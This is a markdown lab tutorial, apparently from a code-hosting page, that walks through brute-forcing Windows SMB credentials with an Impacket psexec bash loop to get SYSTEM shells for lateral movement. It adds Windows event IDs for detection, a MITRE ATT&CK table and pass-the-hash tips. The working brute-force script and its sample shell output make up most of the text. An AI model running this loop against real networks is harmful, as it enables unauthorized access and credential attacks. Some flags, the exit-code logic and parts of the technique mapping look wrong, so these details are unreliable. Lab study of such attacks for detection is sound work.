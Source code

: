 ## ⚠️ LEGAL NOTICE

This is **strictly for lab/educational use only**. Do not test outside of an isolated and controlled lab.

---

## 🔧 LAB SETUP (REQUIRED)

You need:

| Component         | Details                                 |
| ----------------- | --------------------------------------- |
| Kali Linux        | Attacker machine with `Impacket` tools  |
| 2+ Windows 11 VMs | Victim machines with SMB/RPC enabled    |
| Same Network      | All machines must be on the same subnet |
| Weak credentials  | Set on victims for simulation           |

---

## 🧩 STEP 1: SET UP VICTIM MACHINES

**On each Windows 11 VM (Victim):**

1. Create a user (e.g. `user`) with a weak password (e.g. `1234`).
2. Enable File and Printer Sharing (Control Panel > Network).
3. Ensure **TCP port 445 (SMB)** is open (check via `nmap`).
4. Allow remote service access for PsExec-style RPC (WMI/SMB must be enabled).

---

## 📁 STEP 2: PREPARE YOUR CREDENTIAL LIST

Create two files on **Kali**:

```bash
echo "user" > users.txt
echo "1234" > passwords.txt
```

Create a list of target IPs (example):

```bash
echo "192.168.1.10" > targets.txt
echo "192.168.1.11" >> targets.txt
```

---

## 🚀 STEP 3: USE Impacket's `psexec.py` IN A LOOP

Install Impacket if not already:

```bash
sudo apt install impacket-scripts
```

Then, script a brute-force loop using PsExec:

```bash
#!/bin/bash

while read ip; do
  while read user; do
    while read pass; do
      echo "[*] Trying $user:$pass on $ip"
      timeout 10s impacket-psexec "$user:$pass@$ip" -exec-method smbclient -hashes : 2>/dev/null
      if [ $? -eq 0 ]; then
        echo "[+] SUCCESS: $user:$pass on $ip"
      else
        echo "[-] FAILED: $user:$pass on $ip"
      fi
    done < passwords.txt
  done < users.txt
done < targets.txt
```

Save this as `psexec_brute.sh`, then run:

```bash
chmod +x psexec_brute.sh
./psexec_brute.sh
```

---

## 📥 STEP 4: IF SUCCESSFUL, YOU GET A REMOTE SHELL

When credentials are valid, `impacket-psexec` gives you a SYSTEM-level shell on the target:

```
[*] Trying user:1234 on 192.168.1.11
[+] SUCCESS: user:1234 on 192.168.1.11
Microsoft Windows [Version 10.0.19045.3448]
C:\Windows\system32>
```

That’s your **lateral movement achieved via PsExec**.

---

## 🔎 STEP 5: DETECTION OPPORTUNITIES

On your victim machine or via Splunk (assuming logs are forwarded):

* **Security Event ID 4624** – Logon success
* **Event ID 4672** – Special privileges assigned to new logon
* **Sysmon ID 1** – PsExec's service process creation
* **Sysmon ID 3** – Network connections from attacker machine
* PsExec often shows up as `PSEXESVC.exe`

Use YARA or Sigma rules to catch PsExec-style activity.

---

## ✅ MITRE ATT\&CK Mapping

| Technique | Description                          |
| --------- | ------------------------------------ |
| T1021.002 | SMB/Windows Admin Shares             |
| T1078     | Valid Accounts                       |
| T1059.001 | PowerShell execution                 |
| T1035     | Service Execution (PsExec uses this) |

---

## 💡 Optional Enhancements

* Try with NTLM hashes (`-hashes` option in PsExec)
* Use `winrmexec.py` from Impacket for WinRM-based movement
* Add logging to catch repeated failed logons (simulate brute force)


